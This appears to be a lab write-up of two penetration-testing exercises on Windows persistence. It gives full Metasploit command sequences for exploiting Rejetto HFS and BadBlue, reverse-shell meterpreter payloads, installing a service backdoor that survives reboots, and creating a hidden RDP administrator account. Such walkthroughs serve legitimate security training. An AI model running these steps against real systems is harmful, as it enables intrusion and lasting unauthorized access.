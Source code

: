 # 🔬Windows Persistence

## Lab 1 - Service

> 🔬 [Maintaining Access: Persistence Service](https://attackdefense.com/challengedetails?cid=2140)
>
> - Target IP: `10.2.20.244`
> - **Persistence** via services

```bash
nmap -sV 10.2.20.244
```

```bash
80/tcp    open  http 		 HttpFileServer httpd 2.3
135/tcp   open  msrpc		 Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc 		 Microsoft Windows RPC
49153/tcp open  msrpc 		 Microsoft Windows RPC
49154/tcp open  msrpc 		 Microsoft Windows RPC
49155/tcp open  msrpc 		 Microsoft Windows RPC
49156/tcp open  msrpc 		 Microsoft Windows RPC
```

### Exploitation

```bash
service postgresql start && msfconsole -q
```

```bash
search rejetto
use exploit/windows/http/rejetto_hfs_exec
options
setg RHOSTS 10.2.20.244
set payload windows/x64/meterpreter/reverse_tcp
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x64/windows

getuid
	Server username: WIN-OMCNBKR66MN\Administrator
```

- With the `Administrator` Meterpreter session, privilege escalation is not necessary.

### Persistence

❗ In order to set up persistence, administrative privileges are required.

```bash
background
search platform:windows persistence
use exploit/windows/local/persistence_service
info
# Description:
#   This Module will generate and upload an executable to a remote host, 
#   next will make it a persistent service. It will create a new service 
#   which will start the payload whenever the service is running. Admin 
#   or system privilege is required.
set payload windows/meterpreter/reverse_tcp
set LPORT 4444 # use a different port than the other session
sessions
set SESSION 3
run
```

- Successful maintained access. Once the persistent backdoor is installed, it's going to continue to run (across restarts) as a service and a multi handler listening to a connection will receive a connection from the service.

![Metasploit - exploit/windows/local/persistence_service](assets/image-20230429141841138.png)

- Kill all MSF sessions

```bash
exit
# Kill all sessions
sessions -K
sessions
	# No active sessions.
# Close msfconsole
exit 
```

- Regain access to the system

```bash
msfconsole -q

use multi/handler
options
# Set the options as specified for the PERSISTENCE_SERVICE Exploit
set payload windows/meterpreter/reverse_tcp
set LHOST eth1
set LPORT 4444
run
```

![](assets/image-20230429142715572.png)

------

## Lab 2 - RDP

> 🔬 [Maintaining Access: RDP](https://attackdefense.com/challengedetails?cid=2142)
>
> - Target IP: `10.2.20.249`
> - **Persistence** via RDP and a backdoor user account

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.20.249
setg RHOST 10.2.20.249
workspace -a RDP_persistence
db_nmap -sV 10.2.20.249
```

```bash
80/tcp  open  http          BadBlue httpd 2.7
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?

# RDP 3389 is disabled
```

### Exploitation

```bash
use exploit/windows/http/badblue_passthru
run
```

```bash
sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows


getuid
	Server username: ATTACKDEFENSE\Administrator

# Get a stable Meterpreter session
pgrep explorer
migrate 3132
```

### [Enable RDP & New User](https://www.offsec.com/metasploit-unleashed/enabling-remote-desktop/)

- Use the **`getgui`** Meterpreter command to
  - Enable the `RDP` service
  - Create a new user & hide it from Win Login screen
  - Add it to `Remote Desktop Users` & `Administrators` groups

```bash
run getgui -e -u newuser -p attack_1234321
```

> 📌 New user's credentials are `newuser`:`attack_1234321`

![Meterpreter - getgui](assets/image-20230429151339261.png)

- In a new Terminal TAB

```bash
xfreerdp /u:newuser /p:attack_1234321 /v:10.2.20.249
```

![xfreerdp](assets/image-20230429151739158.png)

- The cleanup script provided to remove the added account can be run when the attacker is done with the current system

```bash
# In the Meterpreter Session
run multi_console_command -r /root/.msf4/logs/scripts/getgui/clean_up__20230429.4245.rc
```

![Cleanup script](assets/image-20230429152215357.png)

------

